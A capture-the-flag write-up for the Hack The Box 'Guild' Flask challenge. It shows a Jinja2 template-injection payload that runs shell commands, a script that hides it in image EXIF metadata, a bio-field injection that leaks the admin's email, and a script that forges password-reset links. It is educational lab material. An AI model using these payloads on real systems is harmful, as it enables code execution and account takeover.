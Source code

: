 # Hack The Box CTF Writeup - Guild


##Challenge Description
The Guild challenge is a Flask-based web application with features like user verification, password reset, and user profiles. The goal is to exploit vulnerabilities such as Server-Side Template Injection (SSTI) in the file upload functionality, a weak password reset mechanism, and insufficient input validation to escalate privileges and gain access to the flag.

##Vulnerabilities and Exploitation
###1. Server-Side Template Injection (SSTI) in File Upload
The file upload functionality allows users to upload verification documents. These documents are processed and verified by an admin, but EXIF metadata embedded in the image files is not properly sanitized. The vulnerability arises from the use of Jinja2 template rendering in the server-side code, which allows arbitrary Python code execution via Server-Side Template Injection (SSTI).

Exploit Overview:
The EXIF "Artist" tag is processed and passed through render_template_string() which can evaluate Jinja2 expressions.
By injecting a malicious Jinja2 payload into the Artist EXIF tag, we can execute arbitrary Python code on the server.
Malicious Payload for EXIF Artist Tag:
python
```
b'{{ request.application.__globals__.__builtins__.__import__("os").popen("cat flag.txt").read() }}'
```
This payload tries to execute cat flag.txt on the server, which returns the content of the flag.txt file.

Steps to Exploit:
Craft Malicious Image with Payload: Use a Python script to embed the malicious payload in the Artist tag of the image’s EXIF metadata.

```python
from PIL import Image
import piexif

# Create a simple image
img = Image.new('RGB', (100, 100), color='red')

# Define EXIF data with malicious payload in the "Artist" field
exif_dict = {
    "0th": {
        0x013B: b'{{ request.application.__globals__.__builtins__.__import__("os").popen("cat flag.txt").read() }}',
    }
}

# Convert EXIF dictionary to bytes
exif_bytes = piexif.dump(exif_dict)

# Save the image with EXIF data
img.save("exploit.jpg", exif=exif_bytes)
```
Upload the Malicious Image: Upload the crafted image through the /verification endpoint.
<img src="https://github.com/BharathRam125/CTF-writeups/edit/main/HTB-CTF-Tryout2024/Guild/images/upload.png">
Admin Verification:

The admin will verify the uploaded image and the malicious payload will be executed on the server, revealing the flag.

###2. Insecure Input Validation in Bio Field
The bio field, which allows users to update their profile bio, does not properly validate inputs. Although there is a blacklist of certain dangerous characters, the blacklist-based approach can be easily bypassed. This flaw allows an attacker to inject malicious code into their bio, which could potentially lead to XSS or RCE.

Exploit Overview:
The bio input is not sanitized, and users can input harmful scripts or payloads that may be executed on the server.
Example Payload:
The attacker could input the following XSS payload in their bio:

```html
<td>{{User.query.filter_by(username="admin").first().email}}</td>
```
This would be executed when the admin views the user's profile or when the user views their own profile, revealing the vulnerability.

![alt text](https://github.com/BharathRam125/CTF-writeups/edit/main/HTB-CTF-Tryout2024/Guild/images/bio.png)

![alt text](https://github.com/BharathRam125/CTF-writeups/edit/main/HTB-CTF-Tryout2024/Guild/images/bio.png)

###3. Weak Password Reset Mechanism
The password reset functionality relies on SHA-256 hashes of email addresses to generate password reset links. This mechanism is vulnerable because the hash of the email is predictable and does not have any additional security, such as time-based expiration or randomness.

Exploit Overview:
We can generate the password reset link for any user, including the admin, by simply hashing their email address.
By intercepting the reset link, we can change the password of any user, including the admin.
Steps to Exploit:
Generate Reset Link: Using the admin's email, we generate the password reset link by hashing the email address with SHA-256.

```python
import hashlib

# Admin's email
email = "admin@guild.com"

# Generate SHA-256 hash of the email
hashed = hashlib.sha256(email.encode()).hexdigest()

# Construct the reset link
reset_link = f"http://<ip>:<port>/changepasswd/{hashed}"

print("Reset Link:", reset_link)
```

### Visit the reset link, set a new password, and gain access to the admin account.
### Tthen verify the uploaded image
![alt text](https://github.com/BharathRam125/CTF-writeups/edit/main/HTB-CTF-Tryout2024/Guild/images/flag.png)


Steps to Exploit:
Update Bio:
Input the malicious payload in the bio field.
If the input validation is bypassed, the payload will be stored in the database and executed when rendered.
Flag Retrieval
To retrieve the flag:

Reset the admin password using the generated password reset link.
Log in as admin and verify the malicious image.
The injected payload in the EXIF "Artist" tag will execute and display the flag.

